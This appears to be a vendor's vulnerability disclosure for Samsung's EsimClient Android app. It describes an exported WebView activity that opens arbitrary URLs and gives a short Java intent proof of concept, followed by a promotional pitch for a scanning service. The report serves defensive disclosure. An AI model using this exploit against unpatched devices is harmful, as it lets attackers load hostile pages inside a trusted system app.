

# Details

<table>
    <tr>
        <td>Name</td>
        <td>EsimClient</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.app.telephonyui.esimclient</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.17</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.05</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$200</td>
    </tr>
</table>

# Description

Oversecured found a vulnerability to open arbitrary URLs in the EsimClient app:


The exported activity `com.samsung.android.app.telephonyui.esimclient.OdaWebViewActivity` receives a `Serializable` object of type `com.samsung.oda.lib.message.data.WebViewData`, which contains the `mUrl` field. This string is then passed to `WebView.loadUrl()`, which causes arbitrary URLs to be opened within the app.

**Proof of Concept**
```java
WebViewData data = new WebViewData();
data.mMethodType = HttpMethod.GET;
data.mUrl = "https://google.com/";

Intent i = new Intent();
i.setClassName("com.samsung.android.app.telephonyui.esimclient", "com.samsung.android.app.telephonyui.esimclient.OdaWebViewActivity");
i.putExtra("WebViewData", data);
startActivity(i);
```

## References

- [Oversecured Blog. Android security checklist: WebView](https://blog.oversecured.com/Android-security-checklist-webview/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.